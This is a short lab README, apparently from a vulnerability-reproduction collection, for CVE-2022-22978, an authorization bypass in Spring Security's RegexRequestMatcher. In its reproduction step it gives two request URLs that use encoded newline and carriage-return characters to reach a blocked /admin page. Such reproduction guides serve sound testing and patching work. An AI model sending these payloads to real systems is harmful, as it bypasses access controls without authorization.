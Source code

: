 # CVE-2022-22978: Authorization Bypass in RegexRequestMatcher

In Spring Security versions 5.5.6 and 5.6.3 and older unsupported versions, RegexRequestMatcher can easily be misconfigured to be bypassed on some servlet containers.

Applications using RegexRequestMatcher with `.` in the regular expression are possibly vulnerable to an authorization bypass.

References:

- <https://tanzu.vmware.com/security/cve-2022-22978>
- <https://github.com/DeEpinGh0st/CVE-2022-22978>

## Vulnerability Environment

After server is started, browse to <http://your-ip:8080/admin> to see that access to the admin page is blocked.

![](forbidden.png)

## Vulnerability Reproduce

Send the following request to access the admin page:

- <http://your-ip:8080/admin/%0atest>
- <http://your-ip:8080/admin/%0dtest>

![](bypassed.png)
